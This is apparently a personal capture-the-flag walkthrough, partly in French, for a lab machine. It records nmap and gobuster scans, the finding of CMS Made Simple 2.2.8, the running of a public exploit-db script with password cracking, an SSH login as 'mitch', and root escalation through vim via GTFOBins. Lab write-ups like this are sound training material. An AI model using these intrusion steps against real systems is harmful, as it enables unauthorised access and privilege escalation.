nmap -A -sCV 10.10.15.8
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)


FTP : anonymous


What's the CVE you're using against the application?
gobuster dir -u http://10.10.15.8/ -w /usr/share/wordlists/dirb/common.txt -t 20

--> /simple/ -- en bas de la bage : This site is powered by [CMS Made Simple](http://www.cmsmadesimple.org) version 2.2.8
CVE : https://www.exploit-db.com/exploits/46635

wget de la version python3 du script
python3 -script-.py -u http://10.10.15.8/simple/ --crack -w python/common.txt
![[Pasted image 20240312153640.png]]

Utilisation de ces identifiants : 
ssh mitch@10.10.15.8

What's the user flag?
![[Pasted image 20240312154237.png]]

Is there any other user in the home directory? What's its name?
![[Pasted image 20240312154329.png]]

What can you leverage to spawn a privileged shell?
**vim**
https://gtfobins.github.io/gtfobins/vim/
![[Pasted image 20240312154831.png]]

